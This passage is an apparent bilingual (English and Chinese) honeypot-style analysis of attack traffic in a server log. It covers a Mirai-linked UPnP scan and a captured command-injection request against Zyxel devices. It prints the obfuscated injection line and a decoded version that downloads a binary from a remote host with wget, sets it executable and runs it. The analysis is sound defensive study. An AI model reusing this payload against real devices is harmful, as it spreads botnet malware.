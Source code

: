 ```
Accept: */*
Authorization: Digest user
Content-Length:
%s/%s
██████ got malware'd


```

What stands out this time is M-SEARCH with the ST header. This is a UPnP command looking for devices that support the DIAL protocol on the network. Based on the accompanying XML payload it looks like the malware is programmed to scan for Huawei devices on the network that are vulnerable to command injection. This appears to have been identified as being part of the Mirai botnet.  
这次最突出的是带有ST标题的M-SEARCH。这是一个 UPnP 命令，用于查找网络上支持 DIAL 协议的设备。根据随附的 XML 有效负载，该恶意软件似乎被编程为扫描网络上易受命令注入攻击的华为设备。这似乎已被确定为 Mirai 僵尸网络的一部分。

I tried to download the referenced `yeye.mips` however the file didn't appear to be available when I attempted to fetch it. Perhaps the file is only available at certain times of the day or only responds to certain headers or user agents? Running `nmap` on the server revealed that there were only 2 open ports  
我尝试下载引用 `yeye.mips` 的文件，但是当我尝试获取它时，该文件似乎不可用。也许该文件仅在一天中的特定时间可用，或者仅响应某些标头或用户代理？在服务器上运行 `nmap` 显示只有 2 个打开的端口

```
nmap xxx.xxx.xxx.xxx
Nmap scan report for 25port.org (xxx.xxx.xxx.xxx)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE   Service
22/tcp  open    ssh
646/tcp filtered    ldp


```

So this is where this journey came to an end.  
所以这就是这段旅程结束的地方。

```
[23/Jan/2024:17:56:29 +0000] 400 - GET http localhost "/bin/zhttpd/${IFS}cd${IFS}/tmp;${IFS}rm${IFS}-rf${IFS}*mips*;${IFS}wget${IFS}http://xxx.xxx.xxx.xxx/huhu.mips;${IFS}chmod${IFS}777${IFS}huhu.mips;${IFS}./huhu.mips${IFS}zyxel.selfrep;" [Client xxx.xxx.xxx.xxx] [Length 252] [Gzip -] "-" "-"


```

This time we have a shell command in the URL of a GET request. The command contains a bunch of `${IFS}` shell substitutions which we can clean up to make it easier to read.  
这一次，我们在 GET 请求的 URL 中有一个 shell 命令。该命令包含一堆 shell 替换， `${IFS}` 我们可以清理这些替换以使其更易于阅读。

```
/bin/zhttpd/ cd /tmp; rm -rf *mips*; wget http://xxx.xxx.xxx.xxx/huhu.mips; chmod 777 huhu.mips; ./huhu.mips zyxel.selfrep;


```
